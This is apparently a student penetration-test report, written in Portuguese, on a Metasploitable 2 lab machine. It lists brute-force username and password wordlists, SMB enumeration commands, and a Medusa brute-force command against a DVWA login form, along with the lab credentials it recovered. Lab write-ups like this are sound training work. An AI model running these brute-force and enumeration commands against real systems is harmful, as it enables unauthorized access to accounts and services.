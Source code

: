 # Bootamp_Santander-2025

RELATÓRIO DE TESTE DE PENETRAÇÃO - METASPLOITABLE 2
ALVO: 192.168.56.102

RESUMO 

Este relatório documenta os testes de penetração realizados na máquina Metasploitable 2, focando em ataques de força bruta nos protocolos FTP, SMB e aplicação web DVWA. Foram identificadas múltiplas vulnerabilidades críticas de autenticação.

 METASPLOITABLE 2 - ALVO

- IP DO ALVO: 192.168.56.102
- SISTEMA: Metasploitable 2 (Linux vulnerável)
- SERVIÇOS TESTADOS: FTP, SMB, HTTP (DVWA)

WORDLIST CRIADA PARA ATAQUES

ARQUIVO: users.txt
admin
root
administrator
msfadmin
test
guest
user

ARQUIVO: password.txt
msfadmin
admin
password
123456
admin123
root
1234
12345
qwerty
letmein
monkey
welcome
abc123
password1
12345678
123456789
1234567890
111111
123123
admin@123
Admin@123
Pass@123
msfadmin123

1. ATAQUE FTP - FORÇA BRUTA

COMANDO EXECUTADO:
ftp 192.168.56.102

EVIDÊNCIAS ENCONTRADAS:
- SERVIÇO: vsFTPd 2.3.4
- CREDENCIAIS VALIDADAS: msfadmin:msfadmin
- ACESSO CONCEDIDO: Login bem-sucedido
- MODO DE TRANSFERÊNCIA: Binary mode ativado


2. ENUMERAÇÃO E ATAQUE SMB

COMANDOS EXECUTADOS:

2.1 Listagem de Compartilhamentos:
smbclient -L \\192.168.56.102 -U msfadmin

2.2 Enumeração Completa com enum4linux:
enum4linux -a 192.168.56.102 | tee enum4_output.txt

COMPARTILHAMENTOS IDENTIFICADOS:
| Sharename | Type | Comment |
|-----------|------|---------|
| print$    | Disk | Printer Drivers |
| tmp       | Disk | oh noes! |
| opt       | Disk | |
| IPC$      | IPC  | IPC Service |
| ADMIN$    | IPC  | IPC Service |
| msfadmin  | Disk | Home Directories |

USUÁRIOS ENUMERADOS:
- Administrator (Local User)
- nobody (Local User)
- root (Local User)
- msfadmin (Domain User)
- service (Domain User)
- user (Domain User)
- postgres (Domain User)

- CREDENCIAIS VALIDADAS: msfadmin:msfadmin

ANÁLISE DE VULNERABILIDADE SMB:
- Samba 3.0.20-Debian - versão antiga com vulnerabilidades conhecidas
- Múltiplos usuários com permissões excessivas
- Workgroup: WORKGROUP

3. ATAQUE DE FORÇA BRUTA - APLICAÇÃO WEB (DVWA)

COMANDO MEDUSA EXECUTADO:
medusa -h 192.168.56.102 -U users.txt -P password.txt -M http -m FORM:"/admin/login.php" -m FORM-DATA:"post?user=USER&pass=PASS" -t 5

CREDENCIAIS COMPROMETIDAS - DVWA:

| Usuário       | Senha      
|---------------|------------

| admin         | password   


ACESSO CONCEDIDO AO DVWA:
- USUÁRIO LOGADO: admin
- PHPIDS: disabled
- MÓDULOS ACESSÍVEIS: SQL Injection, XSS, File Upload, Command Execution

